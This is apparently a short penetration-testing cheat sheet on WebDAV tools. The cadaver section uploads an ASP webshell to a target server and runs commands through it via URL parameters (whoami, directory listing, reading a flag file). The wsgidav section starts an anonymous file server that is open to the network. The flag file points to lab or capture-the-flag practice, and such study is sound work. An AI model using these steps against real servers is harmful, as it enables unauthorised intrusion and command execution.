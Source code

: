 # $ cadaver

Cadaver is a tool for WebDAV clients, which supports a command-line style interface. It supports operations such as uploading files, editing, moving, etc.

```bash
$ cadaver
> open http://target/webdav
 username: ...
 password: ...
> put /usr/share/webshells/asp/webshell.asp # put webshell to server
# open webshell in web browser

http://target/webdav/webshell.asp?cmd=whoami
http://target/webdav/webshell.asp?cmd=dir+C%3A%5C
http://target/webdav/webshell.asp?cmd=type+C%3A%5Cflag.txt
```
# wsgidav
```bash
# Share filesystem folder '/temp' for anonymous access (no config file used):
# to use server simply paste host addres to File Explorer in Windows
wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```
```bash
wsgidav -H 0.0.0.0 -p 80 -r $(realpath .) --auth anonymous
```
some info to consider: https://trustedsec.com/blog/how-to-set-up-a-quick-simple-webdav-server-for-remote-file-sharing
